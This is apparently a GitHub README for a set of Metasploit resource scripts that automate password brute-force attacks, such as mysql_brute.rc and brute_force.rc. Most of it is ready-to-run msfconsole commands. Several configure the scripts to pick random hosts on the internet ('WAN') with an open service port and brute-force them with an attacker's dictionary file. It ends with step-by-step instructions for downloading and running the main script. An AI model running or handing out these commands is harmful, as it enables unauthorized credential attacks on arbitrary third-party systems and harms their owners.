 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**
#### [!] Please read the article about resource scripting [here](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

#### REMARKS:

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because the next time it runs, if the database contains any hosts the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by current scans.</blockquote>

- The msfconsole database must be empty (**clean**) at resource script execution (**first run**)<br />
`msfconsole -q -x 'hosts -d;services -d;exit -y'`<br /><br />

- Brute force resource scripts will build one logfile in **/root** directory.<br />
`/root/<resource_script_name>.log`<br /><br />

**Brute force resource scripts deletes msfconsole database at exit (default).**<br />
- To continue populating database with scans, just instruct the rc script to not clean db (optional)<br />
`msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg RANDOM 600;resource /root/brute_force.rc'`

- To export database contents to database.xml local folder (optional)<br />
`msfconsole -q -x 'db_export -f xml database.xml;exit -y'`

![pic](http://i67.tinypic.com/2wfi88h.png)

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

<blockquote>Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />This means that users can run the resource scripts in 3 diferent ways:</blockquote>

- execute resource script **( Scan: 192.168.1.0/24 )**<br />

      msfconsole -r /root/mysql_brute.rc

- instruct the resource script to scan rhosts input by attacker **( Scan: 10.10.10.1 10.10.11.2 )**<br />

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

- instruct the resource script to search in WAN for rhosts with service port open **( Search: WAN for hosts )**<br />

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime.

- instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg RANDOM 300;resource /root/mysql_brute.rc'

- instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to not clean database at exit, scan WAN for rhosts and limmit search to 600 rhosts

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg RANDOM 600;resource /root/mysql_brute.rc'

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

- 1º download resource script to **/root** folder<br />
`sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc`

- 2º start postgresql service (**local**)<br />
`sudo service postgresql start`

- 3º clean msfconsole database before runing rc script<br />
`sudo msfconsole -q -x 'hosts -d;services -d;exit -y'`<br />
**OR** export current database to database.xml (local)<br />
`sudo msfconsole -q -x 'db_export -f xml database.xml;exit -y'`

- 4º run brute_force.rc resource script to search hosts on WAN<br />
`sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg RANDOM 300;resource /root/brute_force.rc'`

<br />

**HINT:** Brute force rc scripts requires the database to be empty, thats the reason why the script
cleans the database at exit, because at next time run if database contains any hosts, the script
will run the attacks againts database hosts (old hosts) and not the hosts found by current scans.

- 5º To populate the database with scans, just instruct the rc script to not clean db (optional)<br />
`msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg RANDOM 600;resource /root/brute_force.rc'`

- 6º To export database contents to database.xml local folder (optional)<br />
`msf > db_export -f xml database.xml`

![pic](http://i67.tinypic.com/2wfi88h.png)

### Suspicious Shell Activity RedTeam @2019

<br />

